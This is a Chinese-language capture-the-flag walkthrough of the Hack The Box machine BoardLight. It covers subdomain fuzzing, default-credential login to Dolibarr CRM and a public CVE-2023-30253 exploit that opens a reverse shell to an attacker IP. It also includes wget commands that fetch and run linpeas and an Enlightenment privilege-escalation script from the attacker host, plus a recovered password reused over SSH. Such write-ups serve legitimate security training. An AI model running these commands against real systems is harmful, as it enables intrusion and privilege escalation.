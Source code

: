 # BoardLight



端口扫描

![image-20240730151754749](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730151754749.png)

只开了80，22端口

网站首页发现域名board.htb

![image-20240730151723918](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730151723918.png)

添加到/etc/hosts文件

![image-20240730152038550](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730152038550.png)

子域名枚举

```
ffuf -u http://board.htb/ -w /home/kali/Desktop/pass/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -fs 15949,0 -t 128 -H "HOST: FUZZ.board.htb"
```

![image-20240730154645586](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730154645586.png)

添加到/etc/hosts文件

![image-20240730154731030](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730154731030.png)

访问http://crm.board.htb

![image-20240730154849807](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730154849807.png)

![image-20240730155023093](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730155023093.png)

poc(https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)

admin/admin尝试登录

![image-20240730155939768](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730155939768.png)

运行poc

```
python exploit.py http://crm.board.htb admin admin 10.10.16.23 1223
```



![image-20240730160246691](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730160246691.png)

![image-20240730160305959](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730160305959.png)

在/etc/passwd文件下找到一个可登录用户

![image-20240730161934041](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730161934041.png)

开启虚拟终端

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

上传linpeas.sh

```
wget http://10.10.16.23:9090/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh
```

![image-20240730161008978](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730161008978.png)

![image-20240730161045876](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730161045876.png)

找到一个目录

![image-20240730162050339](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730162050339.png)



![image-20240730164141623](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730164141623.png)



在/var/www/html/crm.board.htb/htdocs/conf/conf.php下找到一个用户和密码

```
dolibarrowner/serverfun2$2023!!
```

![image-20240730164111158](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730164111158.png)



尝试ssh登录

![image-20240730164537108](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730164537108.png)



登录失败，换个用户名

```
larissa/serverfun2$2023!!
```

![image-20240730164638833](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730164638833.png)



sudo -l查看可执行的命令

![image-20240730164706984](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730164706984.png)



上传linpeas.sh

![image-20240730164822859](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730164822859.png)

运行linpeas.sh

![image-20240730165027853](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730165027853.png)

Enlightenment可以提权https://www.exploit-db.com/exploits/51180

上传poc到靶机

```
wget http://10.10.16.23:9090/exploit.sh
chmod +x expoit.sh
./exploit.sh
```

![image-20240730170730091](C:\Users\andi\AppData\Roaming\Typora\typora-user-images\image-20240730170730091.png)